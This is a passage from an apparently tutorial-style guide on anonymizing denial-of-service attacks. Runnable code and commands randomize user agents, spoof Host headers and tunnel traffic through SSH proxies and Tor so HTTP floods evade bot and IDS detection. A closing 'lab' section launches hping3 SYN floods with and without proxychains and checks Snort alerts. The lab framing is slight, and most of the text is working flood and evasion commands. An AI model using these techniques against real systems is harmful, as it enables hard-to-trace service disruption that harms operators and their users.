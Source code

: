 #### Method 3: Randomize User Agents

- **How It Works**: For application-layer attacks (e.g., HTTP floods), randomize user agents to avoid detection as a bot.
- **Example with Python**:
  ```python
  import requests
  import random
  user_agents = ["Mozilla/5.0 (Windows NT 10.0; Win64; x64)...", "..."]  # Add list
  headers = {"User-Agent": random.choice(user_agents)}
  response = requests.get("http://<target_IP>", headers=headers)
  ```
- **Effectiveness**: High for HTTP-based attacks to blend with legitimate traffic.

### e. Other Anonymity Techniques

- **Spoof Hostnames**: For HTTP attacks, use random hostnames in requests to obscure your intent.
  ```bash
  curl -H "Host: random.example.com" http://<target_IP>
  ```
- **Encrypt Traffic**: Use HTTPS or SSH tunnels to hide packet contents.
  ```bash
  ssh -D 8080 user@<remote_server>  # SOCKS proxy
  proxychains <tool> <target_IP>
  ```
- **Randomize Timing**: Introduce delays in attacks to avoid predictable patterns.
  ```python
  import time
  import random
  time.sleep(random.uniform(0.1, 1.0))  # Random delay
  ```

## 3. Testing Anonymity in Your Lab

To ensure your anonymity techniques work, simulate detection in your lab:

1. **Set Up a Target VM**: Install an IDS like Snort on a Ubuntu VM.

   ```bash
   sudo apt-get install snort
   ```

2. **Attack with and without Anonymity**:

   - Run a SYN flood without VPN/Tor:
     ```bash
     hping3 -S --flood -p 80 <target_IP>
     ```
   - Repeat with `proxychains` and Tor:
     ```bash
     proxychains hping3 -S --flood -p 80 <target_IP>
     ```

3. **Check Snort Logs**:

   ```bash
   sudo cat /var/log/snort/alert
   ```
